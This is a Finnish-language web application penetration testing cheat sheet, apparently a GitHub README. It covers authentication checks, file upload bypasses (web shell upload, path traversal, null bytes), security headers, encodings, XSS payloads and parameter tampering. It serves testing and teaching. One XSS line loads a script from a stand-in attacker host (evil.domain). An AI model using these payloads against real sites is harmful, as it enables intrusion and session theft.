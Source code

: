 # Verkkosovelluksen kybertestauksen referenssi

## Autentikoinnin tarkastuslista

* Onko tunniste satunnainen, siten että sitä ei voi arvata tai päätellä?
* Voiko tunnistetta ohjata hyökkääjän haltuun jotenkin? (HttpOnly ja secure -flagit?)
* Voiko käyttäjän puolesta tehdä pyyntöjä sovellukseen? (CSRF-esto käytössä?)
* Voiko sovelluksen tarkastusta käyttäjätunnuksesta/salasanasta manipuloida?

## File upload

* Onnistuuko ajettavan skriptin upload? (WebShell-backdoor.php)
* ```filename``` attribuutin manipulointi (```*```, ```?```, ```;```, ```../../etc/passwd``` yms)
* ```null byte``` (```0x00```) käyttö esim. filename-kentän suojauksen ohittamiseen
* ```virus.exe.jpg``` vs. ```virus.jpg``` vs. ```virus.exe```
* ```x.php``` -> ```test.jpg/x.php``` 
* Ajettavaa koodia formaatin kautta (SVG, DOC, Excel, XML)
* ```Content-type``` attribuutin manipulointi
* Purettavan ```ZIP, TAR, GZ``` yms. sisällä sopiva polku, esim. ```../../backdoor.php```
* ```PDF``` on myös ZIP ja paljon muuta. 
* ```imagemagick``` tai muun taustaohjelman hyväksikäyttö


## Same-origin policy

|URL|Lopputulos|
|--|:---:|
|http://www.example.com/dir/page2.html|Ok|
|http://www.example.com/dir2/other.html|Ok|
|http://username:password@www.example.com/dir2/other.html|Ok|
|http://www.example.com:81/dir/other.html|Epäonnistuu|
|https://www.example.com/dir/other.html|Epäonnistuu|
|http://en.example.com/dir/other.html|Epäonnistuu|
|http://example.com/dir/other.html|Epäonnistuu|
|http://v2.www.example.com/dir/other.html|Epäonnistuu|
|http://www.example.com:80/dir/other.html|Epäselvä|

## HTTP headerit

|Header|Mikä se on?|
|------|-----------|
X-Content-Type-Options: nosniff|Estää MIME-typen päättelyn.|
|Content-Type |MIME-type.|
|Content-Disposition|Liitetiedostojen erottamiseen sisällöstä.|
|X-Frame-Options:SAMEORIGIN| Estää avaamisen frameen mielivaltaisesta domainista.|
|Cookie + secure| Salaa cookien. Toimii vain jos on HTTPS.|
|cookie + HTTPOnly| Cookien käsittely javascriptilla estetty.|
|Same-Site|CSRF-esto|
|Strict-Transport-Security| Käytä aina HTTPS:ää. Ignoroidaan HTTP:tä käytettäessä.|
|Cache-Control|Välimuistin käsittely.|
|X-XSS-Protection|Sisällössä potentiaalisesti XSS sisältöä.|
|X-Forwarded-For|headeri palvelimelle reverse proxy-palvelimelta. Vastaava x-forwarded-host|
|Content-Security-Policy|Rajoituksia selaimelle sisällön suhteen.| 
|Access-Control-Allow-Origin|Ohita same-origin policy (CORS)| 
|Upgrade-Insecure-Requests|HTTPS-protokolla HTTP:n sijaan automaattisesti.|

## Enkoodaukset

* normaali: ```alert(1)```
* Javascript, Octal: ```\141\154\145\162\164\50\61\51```
* HTML, hex: ```&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;```
* HTML, decimal: ```&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;```
* Javascript,HEX: ```\x61\x6c\x65\x72\x74\x28\x31\x29```
* Javascript, unicode ```\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029```
* Javascript, Unicode ```\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}\u{0028}\u{0031}\u{0029}```
* URL: ```%61%6c%65%72%74%28%31%29```
* Base64


## Javascriptin ajaminen (XSS)

* ```<script>alert(1)</script>```
* ```<script src="http://evil.domain/hak.js"/>```
* Viallinen HTML, esim. ```<scr<script>ipt>alert('XSS')</scr<script>ipt>```
* ```<img src="lol.jpg" onError=alert(1)>```
* onLoad, onChange yms. vastaavasti
* ```<img src=x onerror=alert('XSS')//``` - kommentin hyväksikäyttö
* ```<img src=x:alert(alt) onerror=eval(src) alt=xss>```
* ```<svg/onload=alert(1)>``` SVG-kuvaformaatin hyväksikäyttö + event handler.
* ```<svg id=alert(1) onload=eval(id)>```
* ```<input autofocus onfocus=alert(1)>```
* ```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```
* XML-dokumentin sisällä (CDATA ja muita keinoja)
* SVG-kuvan käyttö alustana (CDATA + script)
* JSON-rakenteen sisällä 

## URL handlerit

* data:text/html - ```data:text/html,<script>alert(1)</script>```
* ```javascript:alert(1)```
* ```http://;URL=javascript:alert(1)```
* Base64: ```data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+```
* ```mailto:```  -sähköposti
* ```callto:```  -puhelinsoitto
* ```tel:``` - puhelinsoitto
* ```file://``` - tiedostojärjestelmä

## Parametrien käsittelyn rikkominen

* Parametrin jättäminen pois
* Arvon korvaaminen (jonkun muun id, -1,  tms..)
* Toistaminen useita kertoja eri arvoilla (HTTP Parameter Pollution)
* Erikoisarvot: ```null```, ```nil```, ```NaN```, lukualueiden ääriarvot
* Erikoismerkit: ```'```, ```%``` ja muut 
* Arvojen lisääminen pyynnön mukana. 
* ylipitkän arvon käyttö
* välilyöntien käyttö alussa tai lopussa


## Piilotetut elementit käyttöliittymässä

* ```form``` elementin hidden-kentät.
* CSS-tyylien kautta piilotetut
* Position avulla piilotus

## OWASP Top 10 (2013)

* A1 Injection
* A2 Broken Authentication
* A3 Cross-Site Scripting (XSS)
* A4 Insecure Direct Object references
* A5 Security Misconfiguration
* A6 Sensitive Data Exposure
* A7 Missing Function Level Access Control 
* A8 Cross-Site Request Forgery (CSRF)
* A9 Using Components with Known Vulnerabilities
* A10 Unvalidated Redirects and Forwards


# Lisenssi

![lisenssi](88x31.png)

Creative Commons, Attribution-NonCommercial CC BY-NC
Kts. [LISENSSI](LICENSE).

